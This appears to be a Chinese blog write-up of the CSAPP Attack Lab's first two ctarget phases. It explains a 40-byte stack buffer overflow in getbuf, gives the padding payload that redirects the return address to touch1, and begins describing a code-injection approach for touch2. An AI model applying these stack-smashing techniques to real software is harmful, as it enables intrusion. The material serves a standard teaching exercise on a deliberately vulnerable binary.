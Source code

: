 > getbuf函数应该就是读入我们输入的字符串的函数了。可以看到，getbuf刚开始时候开辟了16*2+8=40个字节的空间，然后调用Gets函数去读取我们输入的字符，最后返回。
>
> 在这里那么要对栈帧结构熟悉，栈帧规则怪谈：
>
> 1. 栈帧会存储函数调用所需的信息，有函数参数、返回地址、局部变量、寄存器值
> 2. 栈帧一般是向低字节增长，因此开辟了40个字节空间，相当于向下减了40个字节
> 3. 开辟的40个字节中没有存储返回地址，返回地址在调用getbuf的test栈帧中，但紧邻这40个字节
> 4. 康康图（图画的有点抽象）

![csapp3-2](https://www.hiteva.cn/static/article/csapp/csapp3-2.png)

> 因此，我们读入40个字节的填充物，就可以直接修改返回地址啦。改为touch1的地址，注意是小端序，为c0 17 40

```
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

> 加上填充物为，然后执行一下：./hex2raw < ctarget_1_key.txt | ./ctarget -q，bingo

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40
```

**2.2 ctarget-2**

> 先看看第二关的代码

```
void touch2(unsigned val){
    vlevel = 2;
    if (val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

> 可以看到需要让这个val值等于cookie值，这个val是传入的第一个参数，应该存放在%rdi寄存器里面，那我们的目标就是在调用touch2的前把rdi的值修改为cookie的值，然后跳转到touch2就可以了。那么思路就是自己写一段汇编，这段汇编的作用是将cookie压入%rdi，然后用ret调用touch2（记住留两行回车），这个$0x4017ec是touch2的首地址，我就不展示了
